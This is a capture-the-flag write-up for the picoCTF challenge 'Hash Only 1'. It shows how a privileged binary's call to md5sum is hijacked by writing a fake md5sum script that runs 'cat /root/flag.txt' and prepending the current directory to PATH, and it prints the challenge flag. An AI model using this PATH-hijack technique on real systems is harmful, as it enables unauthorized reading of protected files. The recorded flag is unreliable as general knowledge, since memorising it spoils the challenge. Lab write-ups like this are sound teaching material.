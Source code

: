 # Hash Only 1

## Description

Here is a binary that has enough privilege to read the content of the flag file but will only let you know its hash. If only it could just give you the actual content!
Additional details will be available after launching your challenge instance.


## Answer

We immediatly tried running strings on the binary:
```
/bin/bash -c'md5sum /root/flag.txt'
```

* our first thought was that it's some sort of command injection.

One of our other officers actually did something pretty creative:

"when you run strings on it does call md5sum so you have to change the path"

```
echo '#!/bin/bash' > md5sum
echo 'cat /root/flag.txt' >> md5sum
chmod +x md5sum  # Make it executable
export PATH=.:$PATH
```
```
exploited string: picoCTF{sy5teM_b!n@riEs_4r3_5c@red_0f_yoU_fc434b2b}
```
